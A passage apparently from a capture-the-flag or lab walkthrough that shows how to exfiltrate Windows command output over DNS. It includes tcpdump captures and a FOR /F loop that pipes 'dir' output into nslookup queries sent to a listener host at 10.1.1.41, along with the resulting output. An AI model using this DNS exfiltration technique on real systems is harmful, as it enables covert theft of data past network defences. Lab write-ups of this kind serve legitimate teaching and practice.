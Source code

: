 If I grep out just the A records:

```

11:35:55.296505 IP 10.1.1.153.56259 > 10.1.1.41.53: 2+ A? Volume.in.drive. (33)
11:35:55.319970 IP 10.1.1.153.56262 > 10.1.1.41.53: 2+ A? Volume.Serial.Number. (38)
11:35:57.338883 IP 10.1.1.153.56265 > 10.1.1.41.53: 2+ A? Directory.of.C:Users0xdftest. (46)
11:35:59.364047 IP 10.1.1.153.56268 > 10.1.1.41.53: 2+ A? 02/25/2019.07:04.AM. (37)
11:36:01.426274 IP 10.1.1.153.56271 > 10.1.1.41.53: 2+ A? 02/25/2019.07:04.AM. (37)
11:36:03.487602 IP 10.1.1.153.56274 > 10.1.1.41.53: 2+ A? 0.File(s).0. (29)
11:36:05.527818 IP 10.1.1.153.56277 > 10.1.1.41.53: 2+ A? 2.Dir(s).4,917,108,736. (40)

```

So I’m getting the start of the dir list.

### nslookup Command Output

Now I’ll send full command output over dns. I’ll comment out the terminal lines at the end of `ethereal_shell.py` that that I’m just running the dns part, and run it.

Now I’ll try to get the output of a dir command. I’ll use the full 26 tokens, and run something like this: `FOR /F "tokens=1-26" %a IN ('dir /x .') DO ( nslookup %a.%b.%c.%d.%e.%f.%g.%h.%i.%j.%k.%l.%m.%n.%o.%p.%q.%r.%s.%t.%u.%v.%w.%x.%y.%z 10.1.1.41`. The idea is to do a `dir` (with `/x` to get long and short file names), and for each line, break it on whitespace, and send it out with each word being a subdomain in the dns lookup. But this fails (errors on Windows VM and nothing on Kali listener):

```

C:\Users\0xdf\test>@echo off & (FOR /F "tokens=1-26" %a IN ('dir /x .') DO ( nslookup %a.%b.%c.%d.%e.%f.%g.%h.%i.%j.%k.%l.%m.%n.%o.%p.%q.%r.%s.%t.%u.%v.%w.%x.%y.%z 10.1.1.41)) & @echo on
Server:  UnKnown
Address:  10.1.1.41
*** UnKnown can't find Volume.in.drive.C.has.no.label....................: Unspecified error
Server:  UnKnown
Address:  10.1.1.41
*** UnKnown can't find Volume.Serial.Number.is.F06E-7663.....................: Unspecified error
Server:  UnKnown
Address:  10.1.1.41
*** UnKnown can't find Directory.of.C:\Users\0xdf\test.......................: Unspecified error
Server:  UnKnown
Address:  10.1.1.41
*** UnKnown can't find 02/25/2019.07:04.AM.<DIR>.......................: Unspecified error
Server:  UnKnown
Address:  10.1.1.41
*** UnKnown can't find 02/25/2019.07:04.AM.<DIR>........................: Unspecified error
Server:  UnKnown
Address:  10.1.1.41
*** UnKnown can't find 0.File(s).0.bytes......................: Unspecified error
DNS request timed out.
    timeout was 2 seconds.
Server:  UnKnown
Address:  10.1.1.41
*** UnKnown can't find 2.Dir(s).4,913,123,328.bytes.free.....................: Unspecified error

```
